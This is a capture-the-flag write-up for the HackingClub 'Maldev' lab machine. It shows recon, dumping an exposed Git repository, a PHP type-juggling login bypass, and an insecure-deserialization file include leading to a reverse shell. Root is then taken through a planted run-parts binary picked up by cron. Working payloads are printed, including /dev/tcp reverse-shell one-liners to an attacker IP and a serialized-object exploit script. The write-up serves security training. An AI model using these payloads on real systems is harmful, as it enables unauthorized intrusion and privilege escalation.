



[HackingClub] Maldev Writeup
| Platform: | HackingClub |
| Machine: | Maldev |
| Category: | Web Exploitation |
| OS: | Linux |
| Difficulty: | Easy |
## Recon
Initially we make a port scan in the target. We have just 22 and 80 ports open.
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/maldev]
└──╼ $sudo nmap -sSVC -T5 -Pn 172.16.1.229
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 15:01 -03
Nmap scan report for 172.16.1.229
Host is up (0.17s latency).
Not shown: 998 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 1a:d5:16:9c:4d:d2:0d:9c:85:b3:a4:55:f1:ff:21:09 (RSA)
| 256 ef:74:34:c5:11:80:60:91:3b:98:22:fd:6b:e3:27:aa (ECDSA)
|_ 256 98:22:1d:d7:f7:7d:98:96:14:a5:ad:bf:a5:75:5f:7c (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Login
|_Requested resource was /index.php?page=login
| http-git:
| 172.16.1.229:80/.git/
| Git repository found!
| Repository description: Unnamed repository; edit this file 'description' to name the...
|_ Last commit message: web application
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.43 secondsWe have a web service running on port 80 with an exposed .git directory. Let's verify with feroxbuster:
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/maldev]
└──╼ $feroxbuster -u http://172.16.1.229 -w /usr/share/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt
___ ___ __ __ __ __ __ ___
|__ |__ |__) |__) | / ` / \ \_/ | | \ |__
| |___ | \ | \ | \__, \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓 ver: 2.10.4
───────────────────────────┬──────────────────────
🎯 Target Url │ http://172.16.1.229
🚀 Threads │ 50
📖 Wordlist │ /usr/share/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt
👌 Status Codes │ All Status Codes!
💥 Timeout (secs) │ 7
🦡 User-Agent │ feroxbuster/2.10.4
🔎 Extract Links │ true
🏁 HTTP methods │ [GET]
🔃 Recursion Depth │ 4
🎉 New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
🏁 Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
403 GET 9l 28w 277c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404 GET 9l 31w 274c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302 GET 0l 0w 0c http://172.16.1.229/index.php => http://172.16.1.229/index.php?page=login
302 GET 0l 0w 0c http://172.16.1.229/ => http://172.16.1.229/index.php?page=login
301 GET 9l 28w 311c http://172.16.1.229/.git => In fact, we have an exposed Git directory. Before starting the exploitation of the exposed Git, let's examine the page itself. Its content is basically a login form.
## Exploitation
To exploit the exposed Git, we will use git-dumper to extract the repository files and analyze the log.
┌─[ribeirin@parrot]─[~/Documents/git-dumper]
└──╼ $./git_dumper.py http://172.16.1.229/.git maldev_git/
[-] Testing http://172.16.1.229/.git/HEAD [200]
[-] Testing http://172.16.1.229/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://172.16.1.229/.git/ [200]
[-] Fetching http://172.16.1.229/.gitignore [404]
[-] http://172.16.1.229/.gitignore responded with status code 404
[-] Fetching http://172.16.1.229/.git/logs/ [200]
[-] Fetching http://172.16.1.229/.git/HEAD [200]
[-] Fetching http://172.16.1.229/.git/COMMIT_EDITMSG [200]
[-] Fetching http://172.16.1.229/.git/branches/ [200]
[-] Fetching http://172.16.1.229/.git/FETCH_HEAD [200]
[-] Fetching http://172.16.1.229/.git/config [200]
[-] Fetching http://172.16.1.229/.git/info/ [200]
[-] Fetching http://172.16.1.229/.git/description [200]
[-] Fetching http://172.16.1.229/.git/objects/ [200]
[-] Fetching http://172.16.1.229/.git/hooks/ [200]
[-] Fetching http://172.16.1.229/.git/logs/HEAD [200]
[-] Fetching http://172.16.1.229/.git/logs/refs/ [200]
[-] Fetching http://172.16.1.229/.git/refs/ [200]
[-] Fetching http://172.16.1.229/.git/info/exclude [200]
[-] Fetching http://172.16.1.229/.git/hooks/commit-msg.sample [200]
[-] Fetching http://172.16.1.229/.git/hooks/post-update.sample [200]
[-] Fetching http://172.16.1.229/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://172.16.1.229/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://172.16.1.229/.git/hooks/fsmonitor-watchman.sample [200]
[-] Fetching http://172.16.1.229/.git/index [200]
[-] Fetching http://172.16.1.229/.git/hooks/pre-commit.sample [200]
[-] Fetching http://172.16.1.229/.git/hooks/pre-receive.sample [200]
[-] Fetching http://172.16.1.229/.git/hooks/pre-rebase.sample [200]
[-] Fetching http://172.16.1.229/.git/hooks/pre-push.sample [200]
[-] Fetching http://172.16.1.229/.git/objects/03/ [200]
[-] Fetching http://172.16.1.229/.git/hooks/update.sample [200]
[-] Fetching http://172.16.1.229/.git/objects/02/ [200]
[-] Fetching http://172.16.1.229/.git/hooks/prepare-commit-msg.sample [200]
[-] Fetching http://172.16.1.229/.git/objects/4b/ [200]
[-] Fetching http://172.16.1.229/.git/objects/4f/ [200]
[-] Fetching http://172.16.1.229/.git/objects/10/ [200]
[-] Fetching http://172.16.1.229/.git/objects/75/ [200]
[-] Fetching http://172.16.1.229/.git/objects/15/ [200]
[-] Fetching http://172.16.1.229/.git/objects/17/ [200]
[-] Fetching http://172.16.1.229/.git/objects/64/ [200]
[-] Fetching http://172.16.1.229/.git/objects/a2/ [200]
[-] Fetching http://172.16.1.229/.git/objects/82/ [200]
[-] Fetching http://172.16.1.229/.git/objects/5a/ [200]
[-] Fetching http://172.16.1.229/.git/objects/9a/ [200]
[-] Fetching http://172.16.1.229/.git/objects/d1/ [200]
[-] Fetching http://172.16.1.229/.git/objects/ec/ [200]
[-] Fetching http://172.16.1.229/.git/objects/fc/ [200]
[-] Fetching http://172.16.1.229/.git/objects/f1/ [200]
[-] Fetching http://172.16.1.229/.git/objects/ef/ [200]
[-] Fetching http://172.16.1.229/.git/logs/refs/heads/ [200]
[-] Fetching http://172.16.1.229/.git/objects/info/ [200]
[-] Fetching http://172.16.1.229/.git/objects/pack/ [200]
[-] Fetching http://172.16.1.229/.git/objects/fd/ [200]
[-] Fetching http://172.16.1.229/.git/refs/heads/ [200]
[-] Fetching http://172.16.1.229/.git/refs/tags/ [200]
[-] Fetching http://172.16.1.229/.git/objects/03/5e0c6bf0d67cf015a79f346bb8d5d10eecbeca [200]
[-] Fetching http://172.16.1.229/.git/objects/02/81518264e58a4a45060212c91927b7765584d7 [200]
[-] Fetching http://172.16.1.229/.git/objects/03/16ee642058810e9f64d49607e798418a3a7029 [200]
[-] Fetching http://172.16.1.229/.git/objects/02/08a9dd25c0f25af0f6202d902ddf6ea8169b8b [200]
[-] Fetching http://172.16.1.229/.git/objects/10/59928c34e0ad6f1c0e58c8fff32952831c49ee [200]
[-] Fetching http://172.16.1.229/.git/objects/64/7ee7dd12fb7b5eb26c19111b3c17be2706f224 [200]
[-] Fetching http://172.16.1.229/.git/objects/4b/825dc642cb6eb9a060e54bf8d69288fbee4904 [200]
[-] Fetching http://172.16.1.229/.git/objects/15/77aa88ae26b19d04377501803bfc125a688eee [200]
[-] Fetching http://172.16.1.229/.git/objects/4f/4773fb3403f3ec4097ab7c7b1fdec23b9aa924 [200]
[-] Fetching http://172.16.1.229/.git/objects/75/51bc5d01e6bc7312dddf54c0a3a64f6028c782 [200]
[-] Fetching http://172.16.1.229/.git/objects/a2/f3e7fb88bf071f208d95eb255945f78a235422 [200]
[-] Fetching http://172.16.1.229/.git/objects/82/30a898f4023f22b8d821d9fee4a0c08123687f [200]
[-] Fetching http://172.16.1.229/.git/objects/17/4f5534d194eaa009b97b6d2af7c9cef91bc8c0 [200]
[-] Fetching http://172.16.1.229/.git/objects/9a/89b529052158edededcbb5f9b9815477695e80 [200]
[-] Fetching http://172.16.1.229/.git/objects/ef/8ffde9b099e318e1eb542294c74b7a3c0bfdd2 [200]
[-] Fetching http://172.16.1.229/.git/objects/d1/d1c8e6c0a311de5e29dff016899d4a6bb63b41 [200]
[-] Fetching http://172.16.1.229/.git/objects/ec/a774f6ae180fd651deda3d6cfd6f6a0623263a [200]
[-] Fetching http://172.16.1.229/.git/objects/5a/cf193549cbe7e1ca4b40b0a60a9892592a5847 [200]
[-] Fetching http://172.16.1.229/.git/objects/fc/6b032bf99f5d8f5c09c051ebb95f46d752f372 [200]
[-] Fetching http://172.16.1.229/.git/objects/f1/cfc319cdd73adf18b7035229b2886ae31353ac [200]
[-] Fetching http://172.16.1.229/.git/refs/heads/master [200]
[-] Fetching http://172.16.1.229/.git/objects/fd/a73e141379f4b8d0bbe374ee8a0a9ab7144634 [200]
[-] Fetching http://172.16.1.229/.git/logs/refs/heads/master [200]
[-] Sanitizing .git/config
[-] Running git checkout .
Updated 12 paths from the index┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/maldev/maldev_git]
└──╼ $git log
commit 0281518264e58a4a45060212c91927b7765584d7 (HEAD -> master)
Author: Ubuntu
Date: Sun Aug 14 06:06:52 2022 +0000 Alright, there is only one commit in the log. Let's analyze the pages/login.php file. In this code, we found a comparison using the Loose operator, which suggests that the login might be vulnerable to Type Juggling.
<?php
if(check_admin()){
die(header('Location: /index.php?page=home'));
}
if(isset($_POST["username"]) and !empty($_POST["username"]) and isset($_POST["password"]) and !empty($_POST["password"])){
if(strcmp($_POST["username"], $credentials["username"]) == 0 and strcmp($_POST["password"], $credentials["password"]) == 0)
{
$_SESSION["role"] = "admin";
die(header('Location: /index.php?page=home'));
}
}
include("../views/login.php");
?>In this case, we have a POST request sending the username and password parameters in the request body, but without being in JSON format. To exploit this type of vulnerability without JSON, it's necessary to transform these parameters into an array and send the request. Reference: PHP Magic Tricks: Type Juggling
We were able to bypass the application's authentication and access the home page. To continue the exploration, let's use the upload function but before proceeding, let's analyze the source code.
Another important file is pages/uploads.php, where we found some relevant information
- The file name will always be renamed to profile.png.
- Only .png files can be uploaded.
- The upload process essentially moves the file and renames it. Therefore, we can test executing some payloads in this upload.
<?php
$target_dir = "../public/assets/images/";
$target_file = $target_dir . "profile.png";
$uploadOk = 1;
$imageFileType = strtolower(pathinfo($target_file,PATHINFO_EXTENSION));
// Check if image file is a actual image or fake image
if(isset($_POST["submit"])) {
$check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
if($check !== false) {
$uploadOk = 1;
} else {
$uploadOk = 0;
}
}
// Check file size
if ($_FILES["fileToUpload"]["size"] > 500000) {
$uploadOk = 0;
}
// Allow certain file formats
if($imageFileType != "png") {
$uploadOk = 0;
}
// Check if $uploadOk is set to 0 by an error
if ($uploadOk == 0) {
die(header('Location: /index.php?page=home'));
// if everything is ok, try to upload file
} else {
if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
die(header("Location: /index.php?page=home"));
} else {
die(header("Location: /index.php?page=home"));
}
}
?>Initially, I tried to bypass the fileFormat filter, but it didn't work. I spent some time trying different ways to upload a PHP payload, but none of them succeeded.
To avoid wasting more time, I decided to check other files, and in public/index.php, I found the following insecure deserialization vulnerability:
<?php
include('../config.php');
//this page is under development
class Page{
public $page;
function __destruct(){
include($this->page);
}
}
if(isset($_POST["page"]) and !empty($_POST["page"])){
try{
unserialize(base64_decode($_POST["page"]));
die();
}catch(Exception $e){
die(header('Location: /index.php?page=login'));
}
}
if(!isset($_GET['page']))
{
die(header("Location: /index.php?page=login"));
}
$page = filter_input(INPUT_GET, 'page', FILTER_SANITIZE_STRING);
if(!file_exists("../pages/" . $page . ".php"))
{
die(header("Location: /index.php?page=login"));
}
include("../pages/" . $page . ".php");The code in index.php contains an insecure deserialization vulnerability,
exploited through the unserialize function.
With this, we can combine the insecure deserialization with the local file inclusion (LFI)
vulnerability in the processing of the $page variable.
This combination allows us to create an exploit that leverages both vulnerabilities simultaneously.
The Page class contains a __destruct method that includes the file specified in the $page property.
To exploit the scenario, we use both vulnerabilities:
1. Initially, we will upload a PHP binary: We send a file with a malicious payload via upload.php, such as profile.png, which contains PHP code to execute a reverse shell.
┌─[✗]─[ribeirin@parrot]─[~/Documents/machines/hackingclub/maldev]
└──╼ $echo "<?php system(\"/bin/bash -c 'sh -i >& /dev/tcp/10.0.10.235/4444 0>&1'\"); ?>" >> img.png
2. Using insecure deserialization, we created an exploit that sets the $this->page property in the Page class to point to the previously uploaded malicious file.
<?php
class Page {
public $page;
public function __construct($path) {
$this->page = $path;
}
}
$profilePath = "assets/images/profile.png";
$obj = new Page($profilePath);
$payload = base64_encode(serialize($obj));
echo "Payload: " . $payload;
?>┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/maldev]
└──╼ $php expl.php
Payload: Tzo0OiJQYWdlIjoxOntzOjQ6InBhZ2UiO3M6MjU6ImFzc2V0cy9pbWFnZXMvcHJvZmlsZS5wbmciO30=From there, we started the nc and sent the POST request to /index.php with the page parameter.
From there, we got a reverse shell:
www-data@ip-172-16-1-229:/var/www/html/public$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)## Post Exploitation
Running linpeas, we found that we have write permissions on /usr/local/sbin and that a run-parts cronjob is running. We noticed that the first path the cron will look for is /usr/local/sbin, allowing us to create a malicious binary for privilege escalation. References: Privilege Escalation via Cron
╔══════════╣ Systemd PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#systemd-path-relative-paths
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
* * * * * root cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )Then, we created the malicious binary:
www-data@ip-172-16-1-229:/usr/local/sbin$ nano run-parts
www-data@ip-172-16-1-229:/usr/local/sbin$ chmod +x run-parts
www-data@ip-172-16-1-229:/usr/local/sbin$ cat run-parts
/bin/bash -c 'sh -i >& /dev/tcp/10.0.10.235/1234 0>&1'Now, we just have to wait for the privilege escalation.